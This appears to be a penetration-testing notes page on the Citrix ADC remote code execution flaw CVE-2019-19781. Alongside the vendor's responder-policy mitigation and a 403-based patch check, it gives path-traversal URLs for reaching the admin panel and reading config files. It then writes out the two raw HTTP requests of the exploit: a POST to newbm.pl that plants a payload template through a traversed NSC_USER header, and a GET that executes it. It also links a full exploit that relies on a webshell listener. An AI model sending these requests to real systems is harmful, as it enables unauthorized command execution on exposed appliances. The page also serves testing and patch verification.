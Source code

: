 Citrix Admin URL RCE (CVE-2019-19781)
=====================================


From the [Citrix report](https://support.citrix.com/article/CTX267679), it's
look like using a crafted URL you can bypass user permissions. The fix is the
following:

```
enable ns feature responder
add responder action respondwith403 respondwith "\"HTTP/1.1 403 Forbidden\r\n\r\n\""
add responder policy ctx267027 "HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/vpns/\") && (!CLIENT.SSLVPN.IS_SSLVPN || HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/../\"))" respondwith403
bind responder global ctx267027 1 END -type REQ_OVERRIDE
save config
```

A legit URL is `https://<host>/vpn/tmindex.html`, then you should access the admin
panel using the custom URL `https://<host>/vpn/..%2fvpns/apps.html`.

You can test this vulnerability by downloading some executable files:
```
/vpn/../vpns/services.html
/vpn/../vpns/cfg/smb.conf
```

You can check if a server is patched because it returns the following line as a
HTTP response:

```
HTTP/1.1 403 Forbidden
```

### Exploit

A full exploit can be download [here](https://github.com/trustedsec/cve-2019-19781).
It uses a python webshell, so you need a [listener](webshell.md). To exploit the
vulnerability you need to perform 2 requests:

- Create a new template file containing the RCE
- Request the created file to execute the command

```
POST https://<host>:<port>/vpn/../vpns/portal/scripts/newbm.pl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: ../../../netscaler/portal/templates/<filename>
NSC_NONCE: <nounce>

url=127.0.0.1&title=<payload>&desc=desc&UI_inuse=a
```

```
GET https://<host>:<port>/vpn/../vpns/portal/<filename>.xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: <randomuser>
NSC_NONCE: <nounce>
```

